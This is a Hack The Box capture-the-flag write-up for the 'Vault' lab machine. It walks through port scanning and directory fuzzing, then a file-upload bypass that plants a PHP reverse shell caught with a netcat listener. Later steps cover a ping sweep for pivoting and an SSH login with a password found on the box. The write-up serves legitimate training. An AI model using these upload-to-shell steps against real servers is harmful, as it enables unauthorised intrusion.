








# Hackthebox - Vault

  

## Nmap

```bash
┌─[✗]─[gabrielle@parrot]─[~]
└──╼ $sudo nmap -p- -sV -sC 10.10.10.109
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 20:05 EDT
Nmap scan report for 10.10.10.109
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.91 seconds
```  

## Port 80

We have this page  
  

Wfuzz was useless from root but it mentionned a customer.  
If we try to go to /sparklays we get a Forbidden which means that we could try wfuzz again but with this.  

I had to wfuzz multiple times but here are the commands and interesting results I got:  

```bash
wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt http://10.10.10.109/sparklays/FUZZ
000000370:   301        9 L      28 W       323 Ch      "design"  

wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt http://10.10.10.109/sparklays/FUZZ

000000029:   200        3 L      2 W        16 Ch       "login.php"                                                                                                                  
000000016:   200        13 L     38 W       615 Ch      "admin.php"  

wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt http://10.10.10.109/sparklays/design/FUZZ

000000164:   301        9 L      28 W       331 Ch      "uploads" 
```

In the meantime, wfuzz was quite a pain so I tried gobuster which I usually prefer (but wanted to try out wfuzz lol).  
And I got this  
```bash
┌─[gabrielle@parrot]─[/usr/share/wordlists]
└──╼ $gobuster dir -u http://10.10.10.109/sparklays/design/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.109/sparklays/design/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 308]
/.html                (Status: 403) [Size: 309]
/uploads              (Status: 301) [Size: 331] [--> http://10.10.10.109/sparklays/design/uploads/]
/design.html          (Status: 200) [Size: 72]
```

So from these we have:

```bash
http://10.10.10.109/sparklays/design/uploads/
http://10.10.10.109/sparklays/admin.php
http://10.10.10.109/sparklays/login.php
http://10.10.10.109/sparklays/design/design.html
```

- On login.php we get an access denied
- But on admin.php we get a login page

  

I tried bruteforcing along with possible weak password but did not get anywhere.  

- On /design/design.html we get this  
  

- And if we click on change logo we end up here so we can play with the upload function.  

  

I tried a few file extensions and got this working with php5.  
So I downloaded `php-reverse-shell.php5` on the server after modifying the file with my ip address.  
I set up my listener `nc -nlvp 4444`  
And then I accessed this page from the browser (remember the uploads directory we found before)  
http://10.10.10.109/sparklays/design/uploads/php-reverse-shell.php5

And I got a shell as `www-data`:  

  

I chose to play with this machine because I wanted to practice pivoting.  
So let's check what we have available here in terms of network with `arp -a` (if for some reason arp -a does not work a friend of mine uses a cool command `for i in {1..254} ;do (ping 192.168.122.$i -c 1 -w 5  >/dev/null && echo "192.168.122.$i" &) ;done`).  
But here arp -a works and we get this:  
  
But first let's see if we can mobe to a user. if we ls on /home we have 2 users dave and alex.  
If we go to dave's Desktop we find this.  
  
So let's try to ssh as Dave (with the password we found `Dav3therav3123`). It works:  
  

  
